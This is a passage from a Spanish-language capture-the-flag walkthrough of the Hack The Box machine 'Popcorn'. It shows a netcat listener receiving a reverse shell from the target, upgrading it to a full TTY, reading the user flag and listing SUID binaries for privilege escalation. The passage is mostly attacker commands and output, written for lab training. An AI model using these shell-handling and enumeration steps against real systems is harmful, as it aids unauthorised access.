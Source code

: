 Vamos a hacer lo siguiente para poder hacer un `ctrl+c`

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.6] 52756
bash: no job control in this shell
www-data@popcorn:/var/www/torrent/upload$ whoami
whoami
www-data
www-data@popcorn:/var/www/torrent/upload$ script /dev/null -c bash
script /dev/null -c bash
www-data@popcorn:/var/www/torrent/upload$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
				reset xterm
ENTER
[1]  + continued  nc -nlvp 443
www-data@popcorn:/var/www/torrent/upload$ export TERM=xterm	
```

Hay otro usuario que se llama **george**

## User flag 

Podemos ver la **flag**

```bash
www-data@popcorn:/home/george$ cat user.txt 
c135567f2a706d216e497ff3beff5dc6
www-data@popcorn:/home/george$ 
```

## Escalada de privilegios

Si vemos privilegios con permisos **SUID** vemos los siguientes pero ninguno nos sirve

```bash
www-data@popcorn:/$ find \-perm -4000 2>/dev/null
./bin/ping6
./bin/ping
./bin/umount
./bin/mount
./bin/fusermount
./bin/su
./usr/lib/pt_chown
./usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
./usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/bin/chfn
./usr/bin/newgrp
./usr/bin/mtr
./usr/bin/chsh
./usr/bin/sudo
./usr/bin/traceroute6.iputils
./usr/bin/passwd
./usr/bin/arping
./usr/bin/gpasswd
./usr/bin/sudoedit
./usr/bin/at
./usr/sbin/pppd
./usr/sbin/uuidd
www-data@popcorn:/$ 
```
